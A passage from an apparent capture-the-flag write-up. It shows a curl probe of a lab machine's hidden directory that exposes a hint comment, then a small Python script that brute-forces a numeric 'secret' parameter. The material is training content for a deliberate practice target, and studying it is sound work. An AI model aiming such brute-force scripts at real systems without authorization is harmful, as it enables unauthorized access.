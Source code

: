 We see the hidden directory mentioned in the image! 

PS: It is also a good idea to download the image ... just in case, you know?

### 1.4. Hidden Directory Exploration
![The hidden directory screenshot, asking for a secret number](https://i.imgur.com/oih7N23.png)

Info gathered:
- We have to enter a secret
- Source code mentions something about the type of input and the size of input.
- The question is thus: How do we input?


### 1.5. Finding the Secret
Trying the below gives us an expected response. Note how the parameter is accepted.
```
┌──(kali㉿kali)-[/tmp]
└─$ curl 10.10.0.237/{hidden_directory_name}/?secret=1
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 1</p>

<p>That is wrong! Get outta here!</p>

</div>
</body>
</html>
```

We also see the hint printed out here. Time for some scripting!

I wrote the below code, which you can use to bruteforce the value of the secret parameter.
```
┌──(kali㉿kali)-[/tmp]
└─$ cat script.py
import requests

url = "http://MACHINE_IP_HERE/{hidden_directory_name}/?secret="

for i in range(100):
    curr_url = url+str(i)
    response = requests.get(curr_url)
    if response.text.find("wrong") == -1:
        print(i)
        break
    print(f"Checking {i} rn")
```
